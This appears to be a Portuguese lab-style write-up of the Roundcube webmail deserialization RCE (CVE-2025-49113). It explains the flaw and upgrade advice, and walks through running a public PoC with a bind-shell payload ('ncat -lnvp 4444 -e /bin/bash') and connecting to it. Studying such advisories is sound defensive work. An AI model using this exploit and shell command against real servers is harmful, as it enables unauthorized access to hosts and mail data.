


# _**Contextualização**_
Ele requer principalmente um servidor web com suporte a PHP e um servidor SQL para funcionar.  
Apache, Nginx e Lighttpd, entre outros, podem facilmente atender aos requisitos do servidor web.  

<mark>O Roundcube é um projeto de webmail gratuito e de código aberto</mark>. Ele é muito rico em recursos e está disponível em mais de oitenta idiomas.  
Embora seus recursos integrados já sejam extensos, eles podem ser ampliados ainda mais por meio do suporte a plug-ins de terceiros.  

Uma vulnerabilidade foi descoberta neste serviço.  
Ela afeta **todas as versões 1.5.x e 1.6.x anteriores às versões 1.5.10 e 1.6.11** e um ** score CVSS de 9.9**.  
Essa vulnerabilidade permite a execução remota de código (RCE) por usuários autenticados.  
Logo, **credenciais válidas do webmail** são suficientes para que o invasor execute comandos no sistema host.  

## _**Sobre a Vulnerabilidade**_
Serialização é o processo de converter um objeto, no caso, uma instância de classe em PHP, Java ou Python, em um formato que possa ser armazenado ou transmitido  
Esse processo é comumente usado para armazenar objetos em arquivos ou bancos de dados e para enviá-los pela rede, como em APIs ou cookies  

<mark>Uma vulnerabilidade de desserialização</mark> é uma falha de segurança que ocorre quando uma aplicação desserializa dados não confiáveis ou adulterados  
**Desserialização** é o processo de converter dados de um formato serializado, como um fluxo de bytes ou uma string, de volta para um objeto do programa  
Se esse processo for realizado de forma insegura, um invasor pode manipular os dados serializados para executar código arbitrário ou até mesmo escalar privilégios, entre outras ações maliciosas  

Quem descobriu esta vulnerabilidade de desserialização no Roundcube Webmail foi _Kirill Firsov_  
Ele compartilhou em seu site a linha de raciocínio e a pesquisa que levaram [à descoberta](https://fearsoff.org/research/roundcube)  
A vulnerabilidade é causada pela propriedade <mark>_from</mark> no arquivo <mark>upload.php</mark>, que não era verificada adequadamente quanto a valores seguros antes da desserialização  
Essa vulnerabilidade pode ser identificada nos commits da versão 1.5.10 e da versão 1.6.11  

## _**PoC**_
Para esta demonstração, vamos utilizar um código de PoC, que foi publicado por **FearsOff** em seu [repositório](https://github.com/fearsoff-org/CVE-2025-49113) no GitHub  
> ```bash
> git clone https://github.com/fearsoff-org/CVE-2025-49113
> ```

O arquivo CVE-2025-49113.php executa os passos necessários para fazer com que o payload da sua escolha seja executado no servidor alvo  
Após recuperar um token CSRF e um cookie de sessão, esse script PHP PoC faz login usando o nome de usuário e a senha fornecidos pela plataforma  
Os passos principais deste script são os seguintes:
* criar um objeto PHP serializado malicioso
* incorporar o objeto criado no parâmetro _from
* enviar uma requisição POST ao endpoint upload.php usando o parâmetro _from malicioso

Após trocar de diretório e para executar o código PoC, os seguintes argumentos precisam ser usados:
> ```bash
> php CVE-2025-49113.php [http://[ip_address]/roundcube] [username] [password] [command]
> ```
Vamos utilizar o comando ```ncat -lnvp 4444 -e /bin/bash``` como argumento para obter um _bind shell_  



Agora, em nossa máquina, vamos realizar a conexão com ```nc -lnvp 4444 [ip_address]```  
Apesar de recebermos o erro, ainda assim conseguimos realizar a conexão  



Para obter o necessário, basta executar os comandos ```find``` em conjunto com ```grep``` e ```cat```  

## _**Prevenção**_
Essa vulnerabilidade requer apenas credenciais válidas do webmail e funciona em instalações padrão  
O exploit pode ser difícil de detectar, pois pode facilmente passar por tráfego regular  
Considerando a gravidade do exploit, recomenda-se que usuários que executam as versões 1.5.x e 1.6.x atualizem para as versões 1.5.10 e 1.6.11, respectivamente  
Se a atualização for inviável por algum motivo, uma mitigação seria bloquear o **upload.php**  
